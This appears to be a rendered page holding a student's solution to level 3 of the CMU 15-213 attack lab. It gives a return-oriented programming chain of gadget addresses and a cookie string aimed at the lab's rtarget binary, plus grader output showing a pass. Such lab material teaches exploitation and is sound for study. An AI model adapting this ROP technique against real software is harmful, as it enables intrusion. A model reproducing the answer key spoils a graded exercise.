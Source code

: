 ```c
/* -09 */ d6 19 40 00 00 00 00 00
/* -10 */ a2 19 40 00 00 00 00 00
/* -11 */ dd 19 40 00 00 00 00 00
/* -12 */ 34 1a 40 00 00 00 00 00
/* -13 */ 13 1a 40 00 00 00 00 00
/* -14 */ d6 19 40 00 00 00 00 00
/* -15 */ a2 19 40 00 00 00 00 00
/* -16 */ dd 19 40 00 00 00 00 00
/* -17 */ 34 1a 40 00 00 00 00 00
/* -18 */ 13 1a 40 00 00 00 00 00
/* -19 */ d6 19 40 00 00 00 00 00
/* -20 */ a2 19 40 00 00 00 00 00
/* -21 */ dd 19 40 00 00 00 00 00
/* -22 */ 34 1a 40 00 00 00 00 00
/* -23 */ 13 1a 40 00 00 00 00 00
/* -24 */ d6 19 40 00 00 00 00 00
/* -25 */ a2 19 40 00 00 00 00 00
/* -26 */ dd 19 40 00 00 00 00 00
/* -27 */ 34 1a 40 00 00 00 00 00
/* -28 */ 13 1a 40 00 00 00 00 00
/* mov rax, rsp */ 06 1a 40 00 00 00 00 00
/* mov rdi, rax */ a2 19 40 00 00 00 00 00
/* add_xy */ d6 19 40 00 00 00 00 00
/* mov rdi, rax */ a2 19 40 00 00 00 00 00
/* touch3 */ fa 18 40 00 00 00 00 00
/* cookie */ 35 39 62 39 39 37 66 61
/*  tail  */ 00
```

```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 A2 19 40 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 01 02 03 04 05 
```

